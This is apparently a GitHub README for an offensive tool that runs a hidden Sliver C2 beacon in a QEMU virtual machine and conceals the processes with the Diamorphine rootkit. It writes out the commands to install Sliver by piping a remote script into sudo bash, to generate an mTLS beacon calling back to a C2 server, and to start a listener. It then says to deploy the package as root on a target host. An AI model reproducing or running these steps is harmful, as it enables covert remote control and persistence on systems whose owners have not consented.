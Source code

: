 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;



Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu

---

VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)

